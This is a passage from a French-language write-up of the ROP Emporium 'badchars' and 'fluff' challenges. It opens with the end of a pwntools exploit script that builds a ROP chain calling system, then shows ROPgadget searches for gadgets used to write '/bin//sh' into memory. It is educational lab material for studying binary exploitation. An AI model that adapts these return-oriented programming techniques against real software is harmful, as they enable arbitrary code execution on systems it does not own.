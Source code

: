 ~~~python
payload += xor_r15_r14b

payload += pop_rdi
payload += p64(data_addr)
payload += system

#print payload
p = process("./badchars")
#gdb.attach(p, '''
#b checkBadchars
#''')

p.sendline(payload)
p.interactive()
~~~

> Note : Une boucle serais plus élégante mais je préfère avoir une vision plus globale de mon rop chain.

## fluff 
Ce challenge est proche de Write4, mais ce dernier pose quelques petites difficultés en plus de par le nombre de gadgets directement utilisables sont réduits. 
Lançons GDB-peda pour trouver la taille des valeurs de bourrage nécessaire pour créer le buffer overflow (BOF).

> La valeur est identique aux précédents : 40 octets. 

Avec ROPgadget, je cherche un gadget valable pour `pop rdi` : 

~~~bash
root@kali:~/rop_emporium/fluff# ROPgadget --binary fluff | grep "pop rdi" 
0x00000000004008c3 : pop rdi ; ret
~~~

Puis vers un `mov` qui déplace la string `/bin//sh` dans la section `.data` :

~~~bash
root@kali:~/rop_emporium/fluff# ROPgadget --binary fluff --depth 20 | grep "mov .*\[" --color

0x000000000040084e : mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
~~~

> le paramètre **depth** permet de casser la limite de taille des gadgets affichés. 

Cette fois, nous allons devoir ruser pour faire fonctionner la ROP chain car la suite du gadget agis sur l’adresse ou nous souhaitons écrire la chaîne. 
Pour cela nous allons utiliser les mêmes tips qu'avec badchars pour appliquer un `xor` sur le premier Octets de la chaîne avec un `0x0`pour ne pas altérer la chaîne. 

> Oui, 128 xor 0, ça fait toujours 128 !

Maintenant il faut modifier le registre `r10`  : 

~~~bash
0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
~~~
